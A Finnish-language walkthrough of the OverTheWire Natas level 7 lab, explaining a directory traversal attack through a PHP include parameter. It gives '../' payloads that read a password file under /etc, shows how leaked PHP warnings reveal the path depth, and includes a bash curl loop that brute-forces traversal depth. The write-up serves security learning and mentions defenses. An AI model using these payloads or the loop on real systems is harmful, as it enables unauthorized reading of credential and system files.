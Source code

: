 # Directory traversal attack

tämä koskee level 7 harjoitusta, joka on ideana selvittää URL-linkin polkua, jotta saadaan selvitettyä sitä level 8 pääsyn salasansa esim. `http://example.com/../../company/users/list.txt`

# level 7 - koskien

tämä on se virallinen vastaus polku; `http://natas7.natas.labs.overthewire.org/index.php?page=../../../../../../etc/natas_webpass/natas8` 

tämä on se alkuperin URL polkua, mitä oli käytössä; `http://natas7.natas.labs.overthewire.org/index.php?page=home/`

Saattiin yhdestä/useammasta sivustosta vihjettä;
```
<br />
<b>Warning</b>:  include(home/etc/natas_webpass/natas8): failed to open stream: No such file or directory in <b>/var/www/natas/natas7/index.php</b> on line <b>21</b><br />
<br />
<b>Warning</b>:  include(): Failed opening 'home/etc/natas_webpass/natas8' for inclusion (include_path='.:/usr/share/php') in <b>/var/www/natas/natas7/index.php</b> on line <b>21</b><br />

<!-- hint: password for webuser natas8 is in /etc/natas_webpass/natas8 -->

```

1. sijoitin ton antaman vihjeen `/etc/natas_webpass/natas8` tuohon alkuperäiseen URL perään, ja katsottiin mitä se antoi.
   - näin ollen; `http://natas7.natas.labs.overthewire.org/index.php?page=home/etc/natas_webpass/natas8`

2. seuraavaksi aloitettiin ottaa tuota tarjoamaa ettei ole tällaista tiedostoa ja/tai hakemiston polkua eli `/var/www/natas/natas7/index.php`- tässä tapauksessa kertoo, että tiedosto sijaitsee hakemistossa `/var/www/natas/natas7/`.

Kuista päästääisiin maaliin asti? Käyttäen `/etc/natas_webpass/natas8` -tiedostoon ilman tarkkaa tietoa alkuperäisestä polusta, voisi lähteä oletuksesta, että sivusto pyörii web-palvelimen hakemistossa (`/var/www/`). Siitä voi arvioida tarvittavat siirtymät. Näin otettaan tämä tiedostopolkua `/var/www/natas/natas7/index.php` muutettaan `../` - merkintöjä päästäkseen ylöspäin hakemistorakennetta ja näin ollen haluttua kohdetta, ja se on oletuttu tiedostopolku siksi muuttuu näin `../../../../../../etc/natas_webpass/natas8`. Siksi tämä `../` alkaa `home` polusta alkaen, että korvautuu siihen tilalle.


Periaatteessa tämä mahdollistaa **directory traversal** -hyökkäyksen, jossa pääset lukemaan tiedostoja, joita ei pitäisi olla saatavilla. Tästä syystä verkkopalveluiden pitäisi suojautua tällaiselta manipulaatiolta esimerkiksi **suodattamalla** `../`-merkinnät ja määrittämällä tiukat käyttöoikeudet tiedostoille.

Sekä tämä on tärkeä pointti käytännön hyökkäyksissä tai CTF-tehtävissä, joissa ei tiedetä tarkkaa polkua (eli mistä hakemistosta `include()` suoritetaan). 

---

# Mitä tehdään, jos ei tiedetä kuinka monta `../?`

Jos ei tiedetä, missä hakemistossa ollaan, voidaan kokeilla eri määriä `../`-tasoja ja toistaa yrityksiä kunnes osutaan oikeaan.

esim. kokeilla näin; 
```
?page=../../etc/natas_webpass/natas8
?page=../../../etc/natas_webpass/natas8
?page=../../../../etc/natas_webpass/natas8
?page=../../../../../etc/natas_webpass/natas8
```

Jatketaan, kunnes ei enää tule virhettä vaan sisältö ladataan. Tyypillisesti 4–6 kpl `../` riittää, jos ollaan jossain `/var/www/...` -rakenteessa.


## Vihjeitä sijainnista?

Jos saa virheilmoituksen kuten; `Warning: include(home/etc/...) in /var/www/natas/natas7/index.php`.
On mahdollista tällainen tai muuten vastaava web-sovellus/sivusto testaessa kuten saa suoraan PHP:n koodikielen virheilmoituksensa kuten; `Warning: include(home/etc/natas_webpass/natas8): failed to open stream...` 
Tämä toisi vihjettä _hakkerille_ - ja juuri tämä on asia, jota ei saisi tapahtua virallisesti tuotannonympäristössä.

Tämä kertoo jo, että `index.php` sijaitsee hakemistossa `/var/www/natas/natas7/`. Nyt voidaan laskea tarvittavat `../` -tasot tarkasti:

- /var (1)
- /www (2)
- /natas (3)
- /natas7 (4)

Yksi lisää, että päästään juureen: yhteensä 5 kpl `../`
Eli `../../../../../etc/natas_webpass/natas8`


## Jos mitään vihjettä ei ole?
Jos PHP:n virheilmoituksia ei näytetä ollenkaan (esim. virheenkäsittely pois päältä), silloin pitää arvailla ja testata monta eri vaihtoehtoa, ja toivoa, että jossain vaiheessa saat oikean sisällön takaisin (esim. salasanan tai tunnistetekstin).

---

# Kali Linux - terminaalissa 

Aikaisemman harjoittuksen kannalta onko ainoa tapa testata `../` polkun selvittämistä, että kyllä jos ei tiedetä tasan tarkkalleen oikeeta polkua.
Directory traversal -hyökkäys perustuu siihen, että yrität suhteellisesti mennä ylöspäin hakemistorakenteessa, kunnes pääset johonkin arkaluontoiseen tiedostoon.

perus voi kokeilla tätä bash komentoa ja tämä on for-loop, periaatteessa skriptinäkin toimii ja tämä on _brute-force traversaliksi_;
```
for i in $(seq 1 10); do
  path=$(printf "../%.0s" $(seq 1 $i))
  curl "http://natas7.natas.labs.overthewire.org/index.php?page=${path}etc/natas_webpass/natas8" --user natas7:<salasana>
done
```

muita kali linux työkaluja ettei vain pelkä **curl**- komentoa ja muita työkaluja onkin olemassa mm;
- wfuzz 
- ffuf  
- burp suite

---








